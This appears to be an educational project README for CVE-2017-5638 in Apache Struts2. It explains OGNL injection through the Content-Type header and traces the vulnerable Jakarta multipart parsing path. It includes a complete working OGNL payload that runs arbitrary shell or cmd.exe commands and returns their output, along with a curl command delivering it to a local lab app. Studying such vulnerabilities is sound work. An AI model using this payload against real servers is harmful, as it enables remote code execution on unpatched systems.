 # Apache Struts2 Vulnerability | CVE-2017-5638 | Version 2.5

## Disclaimer

*This is meant for educational, and research purposes only. I do not authorize or endorse any illegal or unethical use of this projects contents or information*

## Instructions

To run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 80 by default (http://localhost:80/MSCybersecurity)

To Send commands:

*blank url defaults to http://localhost:80/MSCybersecurity/exploit, you must be on /exploit endpoint*

*if you are running on a mac you will have to change from port 80 to something (it's reserved)*

* java -jar Send.jar

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

NVD [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638)

## The Payload

The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library).

OGNL uses expressions to perform tasks, and two of the expressions that are allowed is the ability to invoke arbitrary classes in the framework, and chain events. Reference guide [OGNL Language Guide](https://commons.apache.org/proper/commons-ognl/language-guide.html).

So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL 
 
    //  OGNL expression to instantiate Command obj
    (#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity'))
  
The edu.uvu.ms.cybersecurity.Command class

    // Command simply prints the cmd argument passed from the OGNL expression
    public class Command {
      private Object cmd;
      
      public Command(Object cmd){
        this.cmd = cmd;
      }

      private void print(){
          System.out.println("OGNL recieved cmd: "+this.cmd);
      }
      
      public void print(String loc){
          System.out.println("OGNL recieved cmd: "+this.cmd+" from "+loc);
      }
    }
     
 Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands 
  
    (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to the server into the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)


    Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


Deliver the payload with CURL

    curl -H "Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" -X POST http://localhost:8080/MSCybersecurity/exploit

A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGNL expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OgnlTextParser.class, which simply interprets the OGNL expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPart library and invokes the *MultiPartRequestWrapper()* constructor
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

he OGNL expression from the Content-Type header is then passed into the *parse()* method. Because the header information is bad, the parser will raise an exception and call the *buildErrorMessage()* method 

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

The *buildErrorMessage()* method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class *findText()* method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The LocalizedTextUtil.class findText method will in turn call *getDefaultMessage()* and pass in the Content-Type information 

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The *getDefaultMessage()* message will then delegate to TextParseUtil.class *translateVariables()* method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class *translateVariables()* method delegates to the OgnlTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGNL expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

                      
